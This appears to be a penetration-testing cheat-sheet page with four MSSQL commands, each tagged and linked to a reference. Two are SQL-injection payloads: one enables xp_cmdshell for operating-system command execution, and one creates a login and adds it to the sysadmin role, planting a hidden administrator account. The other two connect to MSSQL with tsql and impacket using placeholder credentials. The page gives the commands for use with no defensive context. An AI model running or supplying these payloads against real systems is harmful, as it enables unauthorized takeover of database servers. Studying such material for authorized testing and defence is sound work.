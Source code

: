 ### 1. enable xp_cmdshell
```
exec sp_configure 'xp_cmdshell', 1 go reconfigure
```
**- web application,sql injection,shell,mssql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
__________
### 2. mssql add user
```
exec sp_addlogin 'victor', 'pass123';  exec sp_addsrvrolemember 'victor', 'sysadmin'
```
**- web application,sql injection,mssql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
__________
### 3. connect to mssql
```
tsql -S [IP] -U sa -P"[PASS]"
```
**- linux,mssql**
#### References:

https://linux.die.net/man/1/tsql
__________
### 4. connect to mssql
```
/opt/impacket/examples/mssqlclient.py [user]:[pass]@[ip] -port [port]
```
**- linux,mssql,impacket**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
